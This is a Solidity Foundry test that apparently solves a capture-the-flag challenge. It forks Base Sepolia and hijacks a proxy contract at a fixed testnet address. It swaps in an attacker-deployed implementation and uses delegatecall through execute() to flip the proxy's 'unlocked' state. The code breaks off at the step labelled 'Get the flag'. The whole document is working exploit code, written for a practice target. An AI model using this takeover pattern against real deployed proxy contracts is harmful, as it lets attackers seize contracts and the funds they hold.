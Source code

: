 ```solidity

contract ProxyMasterTest is Test {

ProxyMaster proxyMaster;

ExploitImplementation exploitImplementation;

  

address constant PROXY_ADDRESS = 0x85aD671D00348eA2924e7472A678dD085b4B1Dd4;

  

function setUp() public {

vm.createSelectFork("https://sepolia.base.org");

proxyMaster = ProxyMaster(PROXY_ADDRESS);

exploitImplementation = new ExploitImplementation(); // Deploy our exploit contract locally

}

  

function testExploit() public {

console.log("Initial unlocked state:", proxyMaster.isUnlocked());

  

// Step 1: Set the implementation of the proxy to our ExploitImplementation contract

proxyMaster.setImplementation(address(exploitImplementation));

  

// Step 2: Encode the call to setUnlocked(true) from our ExploitImplementation

bytes memory payload = abi.encodeWithSelector(exploitImplementation.setUnlocked.selector, true);

  

// Step 3: Call the execute function on the proxy with the payload

// This will execute setUnlocked(true) in the context of ProxyMaster, modifying its 'unlocked' state variable

proxyMaster.execute(payload);

  

console.log("Final unlocked state:", proxyMaster.isUnlocked());

  

// Step 4: Verify that the unlocked variable in ProxyMaster is now true

assertTrue(proxyMaster.isUnlocked(), "Proxy should be unlocked");

  

// Step 5: Get the flag
```